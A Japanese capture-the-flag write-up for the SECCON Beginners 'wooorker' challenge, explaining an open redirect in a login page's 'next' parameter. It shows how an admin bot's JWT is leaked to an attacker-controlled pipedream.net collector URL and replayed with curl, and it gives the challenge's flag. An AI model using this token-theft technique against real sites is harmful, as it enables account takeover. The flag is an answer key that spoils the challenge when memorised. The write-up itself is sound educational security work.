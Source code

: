 # writeup
ソースコードを読み、クローラーがあることを考慮すると`admin`のJWTを窃取する問題であることがわかる。

`main.js`ではログイン後にJWTを受け取るが、クエリに`next`パラメータが含まれており、かつ値に`token=`が含まれない場合に`next`に指定したURLにリダイレクトを行う処理になっている。

```:js
const loginWorker = new Worker('login.js');

function login() {
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;
    document.getElementById('username').value = '';
    document.getElementById('password').value = '';
    loginWorker.postMessage({ username, password });
}

loginWorker.onmessage = function(event) {
    const { token, error } = event.data;
    if (error) {
        document.getElementById('errorContainer').innerText = error;
        return;
    }
    if (token) {
        const params = new URLSearchParams(window.location.search);
        const next = params.get('next');

        if (next) {
            window.location.href = next.includes('token=') ? next: `${next}?token=${token}`;
        } else {
            window.location.href = `/?token=${token}`;
        }
    }
};
```

そして、リダイレクト先にはJWTがクエリパラメータ`token`として渡される。

また、クローラーは`login?next=/`を送信すると、`https://wooorker.quals.beginners.seccon.jp/login?next=/`を踏んで`admin`としてログインする仕様であるため、`login?next=https://[yours].m.pipedream.net`を送信することで`admin`のJWTが得られる。

最後に取得したJWTを送信することでflagが得られる。

```
curl -H "Authorization: Bearer [admin JWT]" https://wooorker.quals.beginners.seccon.jp/flag
{"flag":"ctf4b{0p3n_r3d1r3c7_m4k35_70k3n_l34k3d}"}
```